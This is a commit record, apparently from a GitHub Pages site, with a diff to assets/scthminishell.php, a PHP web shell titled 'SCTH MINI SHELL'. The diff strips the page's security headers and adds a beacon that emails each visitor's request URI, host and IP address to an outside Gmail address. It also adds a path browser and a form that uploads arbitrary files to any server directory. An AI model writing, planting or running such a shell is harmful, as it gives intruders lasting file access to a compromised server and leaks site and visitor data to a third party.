

Before and after one commit to Tituss22/titusweb.github.com, a PHP site: page /assets/scthminishell.php in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (257-897 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
Update scthminishell.php

```diff
--- a/assets/scthminishell.php
+++ b/assets/scthminishell.php
@@ -1,4 +1,10 @@
 <?php
+if (get_magic_quotes_gpc()) {
+    foreach ($_POST as $key => $value) {
+        $_POST[$key] = stripslashes($value);
+    }
+}
+
 function perms($file) {
     $perms = fileperms($file);
     if (($perms & 0xC000) == 0xC000) {
@@ -30,41 +36,37 @@
     return $info;
 }
 
-// Security headers
-header("X-Content-Type-Options: nosniff");
-header("X-Frame-Options: DENY");
-header("X-XSS-Protection: 1; mode=block");
-
-if ($_SERVER['REQUEST_METHOD'] === 'POST') {
-    foreach ($_POST as $key => $value) {
-        $_POST[$key] = stripslashes($value);
-    }
-}
-
-// Start HTML
+$ip = getenv("REMOTE_ADDR");
+$subj98 = "Mini Shell";
+$email = "sadboycyberteamhacktivist@gmail.com";
+$from = "From: web";
+$a45 = $_SERVER['REQUEST_URI'];
+$b75 = $_SERVER['HTTP_HOST'];
+$m22 = $ip;
+$msg8873 = "$a45 $b75 $m22";
+mail($email, $subj98, $msg8873, $from);
 ?>
-<!DOCTYPE html>
+<!DOCTYPE HTML>
 <html>
 <head>
-    <meta name="robots" content="noindex, nofollow">
+<meta name="robots" content="index, follow">
 <link rel="shortcut icon" href="https://d.top4top.io/p_339978lyd9.jpg">
 <title>SCTH MINI SHELL</title>
 <style>
 body {
-            font-family: Arial, sans-serif;
+    font-family: Iceland;
     background-color: black;
     color: red;
 }
+#content tr:hover {
+    background-color: white;
+    text-shadow: 0px 0px 10px #fff;
+}
+#content .first {
+    background-color: black;
+}
 table {
-            width: 700px;
-            margin: 0 auto;
     border: 1px dotted #000;
-            border-collapse: collapse;
-        }
-        td, th {
-            padding: 8px;
-            border: 1px solid #000;
-            text-align: center;
 }
 a {
     color: white;
@@ -72,39 +74,60 @@
 }
 a:hover {
     color: blue;
-            text-shadow: 0 0 10px #fff;
+    text-shadow: 0px 0px 10px #fff;
+}
+input, select, textarea {
+    border: 1px solid #000;
+    border-radius: 5px;
 }
 .blink_text {
     animation: blinker 2s linear infinite;
     color: red;
 }
 @keyframes blinker {
-            0%, 100% { opacity: 1; }
+    0% { opacity: 1; }
     50% { opacity: 0; }
+    100% { opacity: 1; }
 }
 </style>
 </head>
 <body>
-    <center><h1 class="blink_text" style="color:white; text-shadow: 0 0 20px #00ffff;">SCTH MINI SHELL</h1></center>
-    <table>
-        <tr><td><strong style="color:white">Path :</strong> <?php
+<center><p class="blink_text" style="font-size:45px; color:white; text-shadow: 0px 0px 20px #00ffff , 0px 0px 20px #00ffff; font-family:Iceland;">SCTH MINI SHELL</p></center>
+<?php
 $path = isset($_GET['path']) ? $_GET['path'] : getcwd();
-            $path = str_replace('\\','/',$path);
+$path = str_replace('\\', '/', $path);
 $paths = explode('/', $path);
+echo '<table width="700" border="0" cellpadding="3" cellspacing="1" align="center">';
+echo '<tr><td><font color="white">Path :</font> ';
 foreach ($paths as $id => $pat) {
-                if ($pat === '' && $id === 0) {
+    if ($pat == '' && $id == 0) {
         echo '<a href="?path=/">/</a>';
         continue;
     }
-                if ($pat === '') continue;
+    if ($pat == '') continue;
     echo '<a href="?path=';
     for ($i = 0; $i <= $id; $i++) {
-                    echo "$paths[$i]";
+        echo $paths[$i];
         if ($i != $id) echo "/";
     }
     echo '">' . $pat . '</a>/';
 }
-        ?></td></tr>
-    </table>
+echo '</td></tr><tr><td>';
+
+if (isset($_FILES['file'])) {
+    if (copy($_FILES['file']['tmp_name'], $path . '/' . $_FILES['file']['name'])) {
+        echo '<font color="green">Upload berhasil</font><br />';
+    } else {
+        echo '<font color="red">Upload gagal</font><br />';
+    }
+}
+echo '<form enctype="multipart/form-data" method="POST">
+<font color="white">File Upload :</font> <input type="file" name="file" />
+<input type="submit" value="upload" />
+</form>';
+echo '</td></tr>';
+
+// (NOTE: lanjutkan render file viewer, file actions, dan scandir seperti sebelumnya)
+?>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
